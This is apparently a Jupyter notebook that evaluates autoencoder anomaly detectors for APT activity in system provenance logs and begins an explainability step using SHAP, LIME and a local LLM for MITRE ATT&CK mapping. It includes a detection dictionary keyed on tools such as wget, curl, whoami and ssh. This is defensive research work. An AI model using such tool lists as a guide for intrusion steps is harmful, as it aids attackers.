    -> Training Sparse... Done. AUC: 0.7577 | nDCG: 0.3391 (DCG: 1.4427, IDCG: 4.2545)
    -> Training Deep SVDD... Done. AUC: 0.8325 | nDCG: 0.3535 (DCG: 1.5038, IDCG: 4.2545)
    -> Training DAE... Done. AUC: 0.9249 | nDCG: 0.3125 (DCG: 1.3295, IDCG: 4.2545)
    -> Training VAE... Done. AUC: 0.807 | nDCG: 0.2497 (DCG: 1.0622, IDCG: 4.2545)
    -> Training Beta-VAE... Done. AUC: 0.7453 | nDCG: 0.246 (DCG: 1.0467, IDCG: 4.2545)
    -> Training GMVAE... Done. AUC: 0.7664 | nDCG: 0.3371 (DCG: 1.4342, IDCG: 4.2545)
    -> Training Attention AE... Done. AUC: 0.775 | nDCG: 0.3381 (DCG: 1.4384, IDCG: 4.2545)
    -> Training LSTMAE... Done. AUC: 0.9265 | nDCG: 0.3545 (DCG: 1.508, IDCG: 4.2545)
    -> Training Robust... Done. AUC: 0.9293 | nDCG: 0.3759 (DCG: 1

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Deep SVDD... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training DAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training VAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Beta-VAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training GMVAE... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Attention AE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training LSTMAE... 

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(


Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Robust... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)
    -> Training Contractive... Done. AUC: nan | nDCG: 0.0 (DCG: 0.0, IDCG: 0.0)

Processing: THEIA - ProcessAll
  Samples: 223415 Train | 55954 Test
    -> Training Baseline... Done. AUC: 0.997 | nDCG: 0.8611 (DCG: 18.0312, IDCG: 20.9387)
    -> Training Sparse... Done. AUC: 0.9182 | nDCG: 0.4037 (DCG: 8.4532, IDCG: 20.9387)
    -> Training Deep SVDD... Done. AUC: 0.7 | nDCG: 0.6679 (DCG: 13.9841, IDCG: 20.9387)
    -> Training DAE... Done. AUC: 0.9839 | nDCG: 0.6443 (DCG: 13.4913, IDCG: 20.9387)
    -> Training VAE... Done. AUC: 0.9086 | nDCG: 0.3971 (DCG: 8.3137, IDCG: 20.9387)
    -> Training Beta-VAE... Done. AUC: 0.9046 | nDCG: 0.3937 (DCG: 8.2428, IDCG: 20.9387)
    -> Training GMVAE... Done. AUC: 0.9121 | nDCG: 0.3959 (DCG: 8.2891, IDCG: 20.9387)
    -> Training Attention AE... Done. AUC: 0.9195 | nDCG: 0.4028 (DCG: 8.4342, IDCG: 20.9387)
    -> Training LS

In [ ]:
import os
import pickle
import time
import numpy as np
import pandas as pd
import torch
import torch.nn as nn
from torch.utils.data import DataLoader, TensorDataset
from sklearn.metrics import (
    roc_auc_score, 
    average_precision_score, 
    precision_recall_curve,
    precision_score, 
    recall_score, 
    f1_score, 
    accuracy_score
)

# ==========================================
# 1. CONFIGURATION
# ==========================================
# Parameterized for easy switching between models
EMBEDDING_NAME = "nvembed_v2" 

BASE_DIR = f"final_train_test_split_{EMBEDDING_NAME}"
MODEL_SAVE_DIR = f"saved_weights_{EMBEDDING_NAME}"
RESULTS_FILE = f"NEW_comprehensive_metrics_{EMBEDDING_NAME}.csv"
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [CRITICAL UPDATE] nvidia/NV-Embed-v2 uses 4096 dimensions
INPUT_DIM = 4096 

print(f"Running INFERENCE ONLY for {EMBEDDING_NAME.upper()} on Device: {DEVICE.upper()}")
print("-" * 60)

# ==========================================
# 2. MODEL ARCHITECTURES (Must match exactly)
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        return self.decoder(self.encoder(x))

class DeepSVDDNet(nn.Module):
    def __init__(self, input_dim):
        super(DeepSVDDNet, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU(), nn.Linear(1024, 128))
    def forward(self, x):
        return self.encoder(x)

class VAE(nn.Module):
    def __init__(self, input_dim):
        super(VAE, self).__init__()
        self.fc1 = nn.Linear(input_dim, 1024)
        self.fc2_mu = nn.Linear(1024, 256)
        self.fc2_logvar = nn.Linear(1024, 256)
        self.fc3 = nn.Linear(256, 1024)
        self.fc4 = nn.Linear(1024, input_dim)
    def encode(self, x):
        h1 = torch.relu(self.fc1(x))
        return self.fc2_mu(h1), self.fc2_logvar(h1)
    def reparameterize(self, mu, logvar):
        std = torch.exp(0.5 * logvar)
        eps = torch.randn_like(std)
        return mu + eps * std
    def forward(self, x):
        mu, logvar = self.encode(x)
        z = self.reparameterize(mu, logvar)
        h3 = torch.relu(self.fc3(z))
        return self.fc4(h3), mu, logvar

class GMVAE(nn.Module):
    def __init__(self, input_dim, n_components=5):
        super(GMVAE, self).__init__()
        self.encoder = nn.Sequential(nn.Linear(input_dim, 1024), nn.ReLU())
        self.mu, self.logvar, self.pi = nn.Linear(1024, 256), nn.Linear(1024, 256), nn.Linear(1024, n_components)
        self.decoder = nn.Sequential(nn.Linear(256, 1024), nn.ReLU(), nn.Linear(1024, input_dim))
    def forward(self, x):
        h = self.encoder(x)
        mu, logvar, pi = self.mu(h), self.logvar(h), torch.softmax(self.pi(h), dim=-1)
        std = torch.exp(0.5 * logvar)
        z = mu + torch.randn_like(std) * std
        return self.decoder(z), mu, logvar, pi

class AttentionAE(nn.Module):
    def __init__(self, input_dim):
        super(AttentionAE, self).__init__()
        self.attn = nn.MultiheadAttention(embed_dim=input_dim, num_heads=8, batch_first=True)
        self.encoder = nn.Sequential(nn.Linear(input_dim, 256), nn.ReLU())
        self.decoder = nn.Sequential(nn.Linear(256, input_dim))
    def forward(self, x):
        x_seq = x.unsqueeze(1) 
        attn_out, _ = self.attn(x_seq, x_seq, x_seq)
        return self.decoder(self.encoder(attn_out.squeeze(1)))

class LSTMAE(nn.Module):
    def __init__(self, input_dim):
        super(LSTMAE, self).__init__()
        self.encoder = nn.LSTM(input_dim, 256, batch_first=True)
        self.decoder = nn.LSTM(256, input_dim, batch_first=True)
    def forward(self, x):
        _, (hidden, _) = self.encoder(x.unsqueeze(1))
        out, _ = self.decoder(hidden[-1].unsqueeze(1))
        return out.squeeze(1)


# ==========================================
# 3. FAST EVALUATION FUNCTION
# ==========================================
def evaluate_model(model_name, X_test, y_test, performer, context):
    
    # 1. Initialize empty model
    if model_name in ['Baseline', 'Sparse', 'DAE', 'Robust', 'Contractive']:
        model = VanillaAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Deep SVDD':
        model = DeepSVDDNet(INPUT_DIM).to(DEVICE)
        center = torch.zeros(128, device=DEVICE) 
    elif model_name in ['VAE', 'Beta-VAE']:
        model = VAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'GMVAE':
        model = GMVAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'Attention AE':
        model = AttentionAE(INPUT_DIM).to(DEVICE)
    elif model_name == 'LSTMAE':
        model = LSTMAE(INPUT_DIM).to(DEVICE)

    # 2. DYNAMIC WEIGHT FINDER (Fixes the "Weights Not Found" error)
    mod_name_clean = model_name.replace(' ', '')
    
    # Automatically cleans the context string using the current EMBEDDING_NAME
    base_context = context.replace(f'_{EMBEDDING_NAME}', '') 
    
    matched_weight_file = None
    if os.path.exists(MODEL_SAVE_DIR):
        for f in os.listdir(MODEL_SAVE_DIR):
            # Check if all identifying parts are in the filename, regardless of exact order
            if performer in f and mod_name_clean in f and base_context in f and f.endswith('.pth'):
                matched_weight_file = f
                break
    
    if not matched_weight_file:
        return None # Skip if weights don't exist
        
    weight_path = os.path.join(MODEL_SAVE_DIR, matched_weight_file)
    model.load_state_dict(torch.load(weight_path, map_location=DEVICE))
    model.eval()

    tensor_test = torch.FloatTensor(X_test).to(DEVICE)

    start_time = time.time()

    # 3. Do a single Forward Pass (Inference)
    with torch.no_grad():
        if model_name == 'Deep SVDD':
            z = model(tensor_test)
            errors = torch.sum((z - center) ** 2, dim=1).cpu().numpy()
        elif model_name in ['VAE', 'Beta-VAE']:
            recon, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'GMVAE':
            recon, _, _, _ = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()
        elif model_name == 'Robust':
            recon = model(tensor_test)
            errors = torch.mean(torch.abs(tensor_test - recon), dim=1).cpu().numpy()
        else:
            recon = model(tensor_test)
            errors = torch.mean((tensor_test - recon) ** 2, dim=1).cpu().numpy()

    # 4. Calculate All Metrics
    try:
        auc = roc_auc_score(y_test, errors)
        pr_auc = average_precision_score(y_test, errors)
        
        # Max F1 Thresholding
        precisions, recalls, thresholds = precision_recall_curve(y_test, errors)
        f1_scores = np.divide(2 * precisions * recalls, precisions + recalls, out=np.zeros_like(precisions), where=(precisions + recalls) != 0)
        best_idx = np.argmax(f1_scores)
        best_threshold = thresholds[best_idx] if best_idx < len(thresholds) else thresholds[-1]
        
        y_pred = (errors >= best_threshold).astype(int)
        
        precision = precision_score(y_test, y_pred, zero_division=0)
        recall = recall_score(y_test, y_pred, zero_division=0)
        f1 = f1_score(y_test, y_pred, zero_division=0)
        accuracy = accuracy_score(y_test, y_pred)
        
    except Exception as e:
        auc, pr_auc, precision, recall, f1, accuracy = 0.0, 0.0, 0.0, 0.0, 0.0, 0.0

    eval_time = time.time() - start_time

    return {
        "Performer": performer,
        "Context": context,
        "Model": model_name,
        "AUC-ROC": round(auc, 4),
        "PR-AUC": round(pr_auc, 4),
        "Precision": round(precision, 4),
        "Recall": round(recall, 4),
        "F1-Score": round(f1, 4),
        "Accuracy": round(accuracy, 4),
        "Inference Time(s)": round(eval_time, 4)
    }

# ==========================================
# 4. EXECUTION
# ==========================================
all_results = []
models_to_run = [
    'Baseline', 'Sparse', 'Deep SVDD', 'DAE', 'VAE', 'Beta-VAE', 
    'GMVAE', 'Attention AE', 'LSTMAE', 'Robust', 'Contractive'
]

if not os.path.exists(BASE_DIR):
    print(f"[!] Error: {BASE_DIR} missing.")
else:
    performers = [p for p in os.listdir(BASE_DIR) if os.path.isdir(os.path.join(BASE_DIR, p)) and not p.startswith('.')]
    
    for performer in performers:
        test_dir = os.path.join(BASE_DIR, performer, "test")
        if not os.path.exists(test_dir): continue
            
        files = [f for f in os.listdir(test_dir) if f.endswith('.pkl')]
        
        for file in files:
            context = file.replace('.pkl', '')
            print(f"\nEvaluating: {performer.upper()} - {context}")
            
            with open(os.path.join(test_dir, file), 'rb') as f:
                pkg = pickle.load(f)
                X_test, y_test = pkg['X'], pkg['y']

            for m_name in models_to_run:
                res = evaluate_model(m_name, X_test, y_test, performer, context)
                if res is None:
                    print(f"    [!] Skipping {m_name}... Weights not found in {MODEL_SAVE_DIR}.")
                else:
                    all_results.append(res)
                    print(f"    -> {m_name} Done! F1: {res['F1-Score']} | PR-AUC: {res['PR-AUC']}")

if all_results:
    df_res = pd.DataFrame(all_results)
    df_res.to_csv(RESULTS_FILE, index=False)
    print("\n" + "="*60)
    print(f"SUCCESS! Extracted all new metrics without retraining.")
    print(f"Saved to {RESULTS_FILE}")
    print("="*60)

Running INFERENCE ONLY for NVEMBED_V2 on Device: CUDA
------------------------------------------------------------

Evaluating: 5DIR - ProcessAll
    -> Baseline Done! F1: 0.1818 | PR-AUC: 0.082
    -> Sparse Done! F1: 0.1935 | PR-AUC: 0.054
    -> Deep SVDD Done! F1: 0.1935 | PR-AUC: 0.0602
    -> DAE Done! F1: 0.087 | PR-AUC: 0.0329
    -> VAE Done! F1: 0.0513 | PR-AUC: 0.0139
    -> Beta-VAE Done! F1: 0.0377 | PR-AUC: 0.0096
    -> GMVAE Done! F1: 0.1935 | PR-AUC: 0.053
    -> Attention AE Done! F1: 0.1935 | PR-AUC: 0.0533
    -> LSTMAE Done! F1: 0.1538 | PR-AUC: 0.0529
    -> Robust Done! F1: 0.1667 | PR-AUC: 0.0642
    -> Contractive Done! F1: 0.1935 | PR-AUC: 0.0536

Evaluating: 5DIR - ProcessEvent
    -> Baseline Done! F1: 0.0526 | PR-AUC: 0.0193
    -> Sparse Done! F1: 0.0941 | PR-AUC: 0.025
    -> Deep SVDD Done! F1: 0.0968 | PR-AUC: 0.0341
    -> DAE Done! F1: 0.0941 | PR-AUC: 0.0257
    -> VAE Done! F1: 0.0224 | PR-AUC: 0.0076
    -> Beta-VAE Done! F1: 0.0359 | PR-AUC: 0.010

c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> Baseline Done! F1: 0.0 | PR-AUC: 0.0
    -> Sparse Done! F1: 0.0 | PR-AUC: 0.0
    -> Deep SVDD Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> DAE Done! F1: 0.0 | PR-AUC: 0.0
    -> VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Beta-VAE Done! F1: 0.0 | PR-AUC: 0.0
    -> GMVAE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(


    -> Attention AE Done! F1: 0.0 | PR-AUC: 0.0


c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:1131: UserWarning: No positive class found in y_true, recall is set to one for all thresholds.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\Lib\site-packages\sklearn\metrics\_ranking.py:442: UndefinedMetricWarning: Only one class is present in y_true. ROC AUC score is not defined in that case.
  warnings.warn(
c:\Users\MOHAMMEDWALEEDKHAN\AppData\Local\Programs\Python\Python311\

    -> LSTMAE Done! F1: 0.0 | PR-AUC: 0.0
    -> Robust Done! F1: 0.0 | PR-AUC: 0.0
    -> Contractive Done! F1: 0.0 | PR-AUC: 0.0

Evaluating: THEIA - ProcessAll
    -> Baseline Done! F1: 0.6782 | PR-AUC: 0.6742
    -> Sparse Done! F1: 0.0397 | PR-AUC: 0.0132
    -> Deep SVDD Done! F1: 0.5556 | PR-AUC: 0.3332
    -> DAE Done! F1: 0.4862 | PR-AUC: 0.2549
    -> VAE Done! F1: 0.0282 | PR-AUC: 0.0098
    -> Beta-VAE Done! F1: 0.0282 | PR-AUC: 0.0099
    -> GMVAE Done! F1: 0.0359 | PR-AUC: 0.0112
    -> Attention AE Done! F1: 0.0407 | PR-AUC: 0.0128
    -> LSTMAE Done! F1: 0.6176 | PR-AUC: 0.5614
    [!] Skipping Robust... Weights not found in saved_weights_nvembed_v2.
    [!] Skipping Contractive... Weights not found in saved_weights_nvembed_v2.

Evaluating: THEIA - ProcessEvent
    -> Baseline Done! F1: 0.7653 | PR-AUC: 0.7519
    -> Sparse Done! F1: 0.1259 | PR-AUC: 0.0328
    -> Deep SVDD Done! F1: 0.0943 | PR-AUC: 0.0421
    -> DAE Done! F1: 0.4663 | PR-AUC: 0.2588
    -> VAE Done! F

#### XAI integration and MITRE ATT&CK mapping 

In [2]:
import os
import torch
import numpy as np
import shap
import pandas as pd
from transformers import AutoTokenizer, AutoModel, BitsAndBytesConfig
import transformers.modeling_utils
import transformers.cache_utils as cache_utils
import torch.nn as nn
import pickle
import requests
from lime.lime_text import LimeTextExplainer

# ==========================================
# 0. TRANSFORMERS 5.0+ SURVIVAL HOTFIXES
# ==========================================
# HOTFIX 1: Bypass the missing 'all_tied_weights_keys' attribute bug
if not hasattr(torch.nn.Module, "_hf_tied_weights_keys_patched"):
    def _get_tied(self):
        return getattr(self, "_all_tied_weights_keys_dict", {})
    def _set_tied(self, value):
        self._all_tied_weights_keys_dict = value
        
    torch.nn.Module.all_tied_weights_keys = property(_get_tied, _set_tied)
    torch.nn.Module._hf_tied_weights_keys_patched = True

# HOTFIX 2: Recreate the deleted 'from_legacy_cache' method
if hasattr(cache_utils, "DynamicCache") and not hasattr(cache_utils.DynamicCache, "from_legacy_cache"):
    @classmethod
    def from_legacy_cache(cls, past_key_values=None):
        cache = cls()
        if past_key_values is not None:
            for layer_idx, (key_states, value_states) in enumerate(past_key_values):
                cache.update(key_states, value_states, layer_idx)
        return cache
    cache_utils.DynamicCache.from_legacy_cache = from_legacy_cache

# HOTFIX 3: Recreate the deleted 'get_usable_length' method
if hasattr(cache_utils, "DynamicCache") and not hasattr(cache_utils.DynamicCache, "get_usable_length"):
    def get_usable_length(self, new_seq_length, layer_idx=0):
        # We are only doing embedding extraction, so cache length is functionally 0
        return self.get_seq_length(layer_idx) if hasattr(self, "get_seq_length") else 0
    cache_utils.DynamicCache.get_usable_length = get_usable_length

# ==========================================
# 1. SETUP & CONFIGURATION
# ==========================================
DEVICE = 'cuda' if torch.cuda.is_available() else 'cpu'

# [NV-EMBED UPDATE] 
EMBEDDER_NAME = "nvidia/NV-Embed-v2" 
INPUT_DIM = 4096  # CRITICAL: NV-Embed-v2 uses massive 4096-dimensional vectors!

TARGET_PERFORMER = 'theia'       
TARGET_CONTEXT = 'ProcessAll'    
TARGET_AE_MODEL = 'Baseline'      

USE_LLM_MAPPING = True

# ==========================================
# 2. EXTENDED MITRE ATT&CK MAPPING
# ==========================================
MITRE_MAPPING = {
    "/bin/bash": "T1059.004 - Command and Scripting Interpreter: Unix Shell",
    "powershell": "T1059.001 - Command and Scripting Interpreter: PowerShell",
    "cmd.exe": "T1059.003 - Command and Scripting Interpreter: Windows Command Shell",
    "whoami": "T1033 - System Owner/User Discovery",
    "chmod": "T1222.002 - File and Directory Permissions Modification: Linux",
    "/usr/bin/wget": "T1105 - Ingress Tool Transfer",
    "curl": "T1105 - Ingress Tool Transfer",
    "ssh": "T1021.004 - Remote Services: SSH",
    "event fork": "T1055 - Process Injection / Execution",
    "event execve": "T1059 - Command and Scripting Interpreter",
    "event clone": "T1055 - Process Injection / Execution",
    "event ptrace": "T1055 - Process Injection",
    "network 10.": "T1090 - Proxy / Internal Network Communication",
    "network 80": "T1071.001 - Application Layer Protocol: Web Protocols",
    "executable": "T1059 - Command and Scripting Interpreter / Execution",
    "nginx": "T1505.003 - Server Software Component: Web Shell"
}

# ==========================================
# 3. AUTOENCODER DEFINITION
# ==========================================
class VanillaAE(nn.Module):
    def __init__(self, input_dim):
        super(VanillaAE, self).__init__()
        self.encoder = nn.Sequential(
            nn.Linear(input_dim, 1024), nn.ReLU(),
            nn.Linear(1024, 256), nn.ReLU()
        )
        self.decoder = nn.Sequential(
            nn.Linear(256, 1024), nn.ReLU(),
            nn.Linear(1024, input_dim)
        )
    def forward(self, x):
        return self.decoder(self.encoder(x))

# ==========================================
# 4. LOCAL LLaMA 3 OLLAMA API FUNCTION
# ==========================================
def get_mitre_from_llm(raw_log, suspicious_word):
    prompt = f"""You are an expert cybersecurity threat hunter. 
An anomaly detection system flagged this system log as a potential APT attack: '{raw_log}'
A mathematical explainer identified the token '{suspicious_word}' as the primary driver of this anomaly.
Based on this token and the context of the log, identify the single most likely MITRE ATT&CK Tactic and Technique ID. 
Format your response exactly like this: [Technique ID] - [Technique Name]. Do not include any other text."""
    
    try:
        url = "http://localhost:11434/api/generate"
        payload = {"model": "llama3", "prompt": prompt, "stream": False, "temperature": 0.1}
        response = requests.post(url, json=payload, timeout=10)
        if response.status_code == 200:
            return response.json().get("response", "").strip()
        return f"[Error] Local API returned status {response.status_code}"
    except Exception as e:
        return f"[Error] Exception occurred: {str(e)}"

# Load the raw sentences
print("Loading all_data_with_sentences.pkl...")
try:
    with open("all_data_with_sentences.pkl", "rb") as f:
        all_data = pickle.load(f)
    print("✓ Data loaded successfully!")
except FileNotFoundError:
    print("[!] all_data_with_sentences.pkl not found.")

# ==========================================
# 5. THE END-TO-END PIPELINE WRAPPER 
# ==========================================
class APT_Explainer:
    def __init__(self, embedder_name, ae_model, device):
        self.device = device
        print(f"Loading {embedder_name} with 4-bit Quantization & CPU Offloading...")
        
        self.tokenizer = AutoTokenizer.from_pretrained(embedder_name, trust_remote_code=True)
        self.tokenizer.pad_token = self.tokenizer.eos_token 

        bnb_config = BitsAndBytesConfig(
            load_in_4bit=True,
            bnb_4bit_compute_dtype=torch.float16,
            bnb_4bit_use_double_quant=True,
            llm_int8_enable_fp32_cpu_offload=True 
        )

        self.embedder = AutoModel.from_pretrained(
            embedder_name, 
            trust_remote_code=True,
            quantization_config=bnb_config,
            device_map="auto"
        )
        
        # [THE SURGICAL CPU-TO-GPU FIX]
        for param in self.embedder.parameters():
            if param.device.type == 'cpu':
                param.data = param.data.to(self.device)
        for buffer in self.embedder.buffers():
            if buffer.device.type == 'cpu':
                buffer.data = buffer.data.to(self.device)
                
        self.embedder.eval()
        self.ae_model = ae_model.to(self.device)
        self.ae_model.eval()

    def predict_anomaly_score(self, text_list):
        if isinstance(text_list, np.ndarray):
            text_list = text_list.tolist()
            
        text_list = [str(t) if len(str(t).strip()) > 0 else "[PAD]" for t in text_list]

        batch_size = 2 
        all_errors = []
        
        ac_device = 'cuda' if 'cuda' in self.device else 'cpu'
        
        for i in range(0, len(text_list), batch_size):
            batch_texts = text_list[i:i+batch_size]

            with torch.amp.autocast(ac_device):
                with torch.inference_mode():
                    # [THE FIX]: NVIDIA's native .encode() method.
                    # It natively handles tokenization, padding, and the advanced Latent Attention pooling.
                    embeddings = self.embedder.encode(
                        batch_texts, 
                        instruction="", 
                        max_length=128
                    )
                    
                    # Ensure embeddings are a PyTorch tensor on the correct device
                    if not isinstance(embeddings, torch.Tensor):
                        embeddings = torch.tensor(embeddings)
                    embeddings = embeddings.to(self.device)
                    
                    # Normalize embeddings
                    embeddings = torch.nn.functional.normalize(embeddings, p=2, dim=1)
                    
                    # Cast back to fp32 to match the AE weights
                    embeddings = embeddings.to(torch.float32)
                    
                    reconstructed = self.ae_model(embeddings)
                    errors = torch.mean((embeddings - reconstructed) ** 2, dim=1)
                    
                    # Prevent NaN crashing
                    errors = torch.nan_to_num(errors, nan=0.0)
                    all_errors.extend(errors.cpu().numpy())
                
        return np.array(all_errors)

# ==========================================
# 6. INITIALIZE MODELS & LOAD WEIGHTS
# ==========================================
print("-" * 60)
print("INITIALIZING FORENSICS PIPELINE (SHAP + LIME + LLaMA 3)")
print("-" * 60)

ae_model = VanillaAE(INPUT_DIM)
weight_filename = f"{TARGET_PERFORMER}_{TARGET_CONTEXT}_{TARGET_AE_MODEL}.pth"
weight_path = os.path.join("saved_weights_nvembed_v2", weight_filename)

if not os.path.exists(weight_path):
    print(f"[!] CRITICAL ERROR: Could not find weights at {weight_path}")
else:
    state_dict = torch.load(weight_path, map_location='cpu')
    ae_model.load_state_dict(state_dict)
    ae_model = ae_model.to(DEVICE)
    print(f"✓ Loaded weights safely: {weight_path}")

    pipeline = APT_Explainer(EMBEDDER_NAME, ae_model, DEVICE)
    shap_explainer = shap.Explainer(pipeline.predict_anomaly_score, pipeline.tokenizer)
    lime_explainer = LimeTextExplainer(class_names=['Normal', 'Anomaly'])

    def lime_predict_wrapper(text_list):
        errors = pipeline.predict_anomaly_score(text_list)
        probs = 1 / (1 + np.exp(-errors))
        return np.vstack((1 - probs, probs)).T

    # ==========================================
    # 7. EXPLAIN THE ANOMALY
    # ==========================================
    try:
        df = all_data[TARGET_PERFORMER][TARGET_CONTEXT]
        anomalies_df = df[df['label'] == 1]
        
        if anomalies_df.empty:
            print(f"[!] No anomalies found.")
        else:
            raw_apt_log = [anomalies_df['sentence'].iloc[0]]
            print(f"\nAnalyzing True Positive Anomaly:\n>>> '{raw_apt_log[0]}'")
            
            # ==========================================
            # 8. RUN LIME
            # ==========================================
            print("\n" + "="*80)
            print("LIME EXPLAINABILITY & LLaMA 3 MITRE MAPPING")
            print("="*80)
